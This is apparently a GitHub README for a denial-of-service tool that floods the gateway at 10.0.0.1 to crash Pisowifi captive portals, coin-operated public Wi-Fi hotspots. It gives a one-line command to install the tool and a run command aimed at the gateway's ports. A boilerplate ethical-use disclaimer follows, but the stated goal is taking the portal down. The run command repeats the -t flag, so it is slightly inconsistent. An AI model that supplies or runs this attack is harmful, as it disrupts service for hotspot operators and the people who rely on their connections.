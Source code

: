# Pisowifi DDOS
Pisowifi 502 10.0.0.1 Gateway Error and take down captive portal.

# Installation
```
pkg update && pkg upgrade -y && pkg install python3 -y && git clone https://github.com/xiv3r/pisowifi-ddos && cd pisowifi-ddos
```
# Run
```
python3 ddos.py -t 10.0.0.1 -p 80 -t 135
```
<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/ddos.png">
</div>

### Disclaimer
`"This tool is intended solely for ethical cybersecurity purposes, such as penetration testing, vulnerability assessments, and authorized research. Unauthorized use to disrupt networks, services, or systems is illegal and violates cybersecurity laws. Misuse may result in severe legal penalties, including fines and imprisonment. Always obtain explicit permission before testing any system. By using this tool, you agree to comply with all applicable laws and assume full responsibility for your actions."`
